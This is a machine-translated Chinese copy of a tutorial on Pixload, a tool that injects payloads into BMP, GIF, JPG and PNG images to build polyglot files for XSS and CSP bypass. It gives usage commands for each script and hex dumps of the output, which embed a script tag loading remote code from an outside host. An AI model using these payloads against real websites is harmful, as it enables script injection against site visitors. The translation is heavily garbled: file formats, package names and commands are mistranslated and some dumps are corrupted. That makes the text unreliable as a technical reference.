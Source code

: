 # Pixload:图像有效载荷创建/注入工具

> 原文：<https://kalilinuxtutorials.com/pixload-image-payload-creating-injecting/>

[![Pixload : Image Payload Creating/Injecting Tools](img/3447efbb0b593f717bc2067eab95c824.png "Pixload : Image Payload Creating/Injecting Tools")](https://1.bp.blogspot.com/-3Cq21IP9DHo/XYZOQko3DWI/AAAAAAAACk0/4a2ghrOjX4Ew7aMNcr5ncX6KhK8ecf1WgCLcBGAsYHQ/s1600/Pixload.png)

Pixload 是一套用于创建/注入有效载荷到图像中的工具。有助于更好地理解 pixload 及其使用案例的有用参考资料:

*   [使用多语言 JPEGs 绕过 CSP](https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs)
*   [黑客组织利用多语言图像隐藏恶意攻击](https://devcondetect.com/blog/2019/2/24/hacking-group-using-polyglot-images-to-hide-malvertsing-attacks)
*   [在 PNG IDAT 块中编码 Web 外壳](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
*   [通过 PNGs 在脸书的 XSS&靠不住的内容类型](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)
*   [重访巴布亚新几内亚 IDAT 语块中的 XSS 有效载荷](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

如果您希望以这样一种方式对有效负载进行编码，使得生成的二进制 blob 既是有效的 x86 外壳代码又是有效的图像文件，我建议您查看这里和这里。

**也可阅读-[priv Exchange:通过滥用 Exchange](https://kalilinuxtutorials.com/privexchange/)** 将您的权限换取域管理员权限

**设置**

下列 Perl 模块是必需的:

*   绿色发展
*   Image::ExifTool
*   String::CRC32

在`**Debian-based**`系统上安装这些软件包:

sudo 安装 libgd-perl libimage-EXIF tool-perl libstring-crc32-perl

关于`OSX`请参考[这个变通办法](https://github.com/chinarulezzz/pixload/issues/3) (thnx 2 @iosdec)。

**工具**

**bmp.pl**

BMP 有效载荷生成器/注入器。

##### **用法**

。/BMP . pl[-payload ' STRING ']-output payload . BMP

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将创建一个新的。

##### 举例

。/BMP . pl-output payload . BMP
[>| BMP payload creator/injector |<]
https://github.com/chinarulezzz/pixload

[>生成输出文件
【✔】文件保存到:payload.bmp

[ > ]将 payload 注入 payload . BMP
【✔】payload 注入成功

payload.bmp: PC 位图，OS/2 1.x 格式，1 x 1

0../|
00000020 3d 31 3b 3c 73 63 72 69 70 74 20 73 72 63 3d 2f | = 1；

**gif.pl**

GIF 有效载荷创建者/注入者。

**用法**

。/gif . pl[-payload ' STRING ']-output payload . gif

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将生成新的。

##### **例子**

。/gif . pl-output payload . gif
[>| gif payload creator/injector |<]

https://github.com/chinarulezzz/pixload

[>]生成输出文件
【✔】文件保存到:payload.gif

[ > ]将有效载荷注入 payload . gif
【✔】有效载荷注入成功

payload.gif: GIF 图像数据，版本 87a，10799 x 32
|
000000010 00 00 00 2c 00 00 00 00 20 00 20 00 00 02 1e 84 |…，…。…..|
000000020 8f a9 CB ed 0f a3 9c B4 da 8b B3 de BC FB 0f 86 |………………|
000000030 E2 48 96 E6 89 a6 ea ca B6 ee 0b 9b 05 00 3b 2a |。H………;* |
00000040 2f 3d 31 3b 3c 73 63 72 69 70 74 20 73 72 63 3d |/= 1；

**jpg.pl**

JPG 有效载荷生成器/注入器。

**用法**

。/jpg . pl[-payload ' STRING ']-输出 payload.jpg

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将创建一个新的。

**例子**

。/jpg . pl-output payload.jpg
[>| JPEG 有效载荷创建者/注入者|<]
https://github.com/chinarulezzz/pixload

[>]生成输出文件
【✔】文件保存到:payload.jpg

[>]将有效载荷注入评论标签
【✔】有效载荷注入成功

有效载荷. jpg: JPEG 图像数据，JFIF 标准 1.01，分辨率(DPI)，密度 96×96，段长 16..`|`
000000010 00 60 00 00 ff Fe 00 21 3c 73 63 72 69 70 74 20 | .`…..！<script |
000000020 73 72 63 3d 2f 6e 6a 69 2e 78 79 7a 3e 3c 2f | src =//nji . XYZ></|
00000030 73 63 72 69 70 74 3e ff db 00 43 00 08 06 06 07 | script>…C…..|
000000040 06 05 08 07 07 07 09 09 08 0a 0c 14 0d 0c 0b 0b |…………|
000000050 0c 19 12 13 0f 14 1d 1a 1f 1e 1d 1a 1c 1c 20 24 |………..$ |
000000060 2e 27 20 22 2c 23 1c 1c 28 37 29 2c 30 31 34 34 |。' ",#..(7)，0144 |
000000070 34 1f 27 39 3d 38 32 3c 2e 33 34 32 ff db 00 43 | 4。9 = 82<. 342…C |
000000080 01 09 09 09 0c 0c 0c 18 0d 0d 18 32 21 1c 21 32 |……..2!。！2 |
00000090 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32

**png.pl**

PNG 有效载荷创建器/注入器。

**用法**

。/png . pl[-payload ' STRING ']-输出 payload.png

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将创建一个新的。

##### 举例

。/png . pl-output payload.png

[>| png 有效载荷创建者/注入者|<]

https://github.com/chinarulezzz/pixload[>]生成输出文件

【✔】文件保存到:payload.png
[>]注入有效载荷到 payload.png
[+]chunk size:13
[+]chunk type:ihdr
[+]CRC:fc 18 EDA 3
[+]chunk size:9
[+ CRC:c8 a 288 Fe
[+]Chunk size:0
[+]chunk type:iend

[>]将有效载荷注入新的 chunk:'朋克'
【✔】有效载荷注入成功

payload.png: PNG 图像数据，32 x 32，8 位/彩色 RGB，非隔行扫描

00000000 89 50 47 00a 1a 00 巴布亚新几内亚……..IHDR |
000000010 00 00 00 20 00 00 00 20 08 02 00 00 00 fc 18 ed |……..|
000000020 a3 00 00 00 09 70 48 59 73 00 00 0e C4 00 00 00 0e |…..物理……|
000000030 C4 01 95 2b 0e 1b 00 00 00 19 49 44 41 54 48 89 | …+……IDATH。|
00000040 ed C1 31 01 00 00 00 C2 A0 F5 4f ed 61 0d A0 00 |..1……. o . a…|
000000050 00 00 6e 0c 20 00 01 c8 a2 88 Fe 00 00 00 00 00 49 |..……I |
00000060 45 4e 44 AE 42 60 82 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | END。B`……。|
000000070 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |……。|
*
000000 c0 00 1f 70 55 6e 6b 3c 73 63 72 69 70 74 20 73 72 |..朋克<剧本 Sr |
000000 d0 63 3d 2f 2f 6e 6a 69 2e 78 79 7a 3e 3c 2f 73 63 | c =//nji . XYZ>/sc |
000000 E0 72 69 70 74 3e 9d 11 54 97 00 49 45 4e 44 | script>..T..IEND|
000000ee

**免责声明**

作者对这个工具的不良使用不承担任何责任，记住未经事先同意攻击目标是违法的，要受到法律的制裁。

[**Download**](https://github.com/chinarulezzz/pixload#jpgpl)